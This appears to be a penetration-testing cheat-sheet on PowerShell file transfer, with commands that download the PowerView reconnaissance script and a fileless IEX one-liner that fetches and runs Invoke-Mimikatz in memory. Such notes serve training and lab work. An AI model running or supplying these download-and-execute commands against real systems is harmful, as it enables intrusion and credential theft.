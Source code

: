 

# Bash Script Commands

PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP, HTTPS or FTP. The following table describes WebClient methods for downloading data from a resource:


- OpenRead	Returns the data from a resource as a Stream.

- OpenReadAsync	Returns the data from a resource without blocking the calling thread.

- DownloadData	Downloads data from a resource and returns a Byte array.

- DownloadDataAsync	Downloads data from a resource and returns a Byte array without blocking the calling thread.

- DownloadFile	Downloads data from a resource to a local file.
DownloadFileAsync	Downloads data from a resource to a local file without blocking the calling thread.

- DownloadString	Downloads a String from a resource and returns a String.

- DownloadStringAsync	Downloads a String from a resource without blocking the calling thread.

## PowerShell DownloadFile Method

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')


## Fileless Method 
- PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

## Invoke webrequest
- PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

# Common Errors with PowerShell
- There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

